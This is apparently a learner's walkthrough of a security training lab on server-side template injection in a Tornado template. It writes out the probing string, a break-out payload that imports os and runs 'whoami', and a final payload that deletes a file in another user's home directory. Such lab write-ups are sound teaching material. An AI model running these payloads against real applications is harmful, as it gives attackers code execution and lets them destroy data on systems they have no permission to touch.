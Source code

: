 # Practitioner Lab 108: Basic server-side template injection (code context)

---

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

the first thing I tried was looking at the websites functionality and looked at how I could change my nickname. 

I then decided to post a comment as the user to see if my name would be reflected and it was. 

I then went into the account and changed the request to change a comment to see what would happen if I included the following string

```
${{<%[%'"}}%\
```

this resulted in a verbose error which told me information 

![Untitled](Practitioner%20Lab%20108%20Basic%20server-side%20template%20in%202f65776823c5418faf47d8b0f2655258/Untitled.png)

Now I will search for tornado to see how I can execute code in it.

when I use the 

```
{{7*7}}
```

This results in the application giving me a 49.

But if I try any of the others it results in an error. 

I noticed it was a code context based on the user.nickname

I now tried to break out of it and then inject more code. I this this by closing the user.nickname with }}

and then injecting the code after it .

```
user.nickname}}{% import os %}{{os.system('whoami')}}
```

this resulted in carlos being printed out on the screen. 

Now I could use this to remove the file. 

```
blog-post-author-display=user.nickname}}{% import os %}{{os.system('rm /home/carlos/morale.txt')}}
```

![Untitled](Practitioner%20Lab%20108%20Basic%20server-side%20template%20in%202f65776823c5418faf47d8b0f2655258/Untitled%201.png)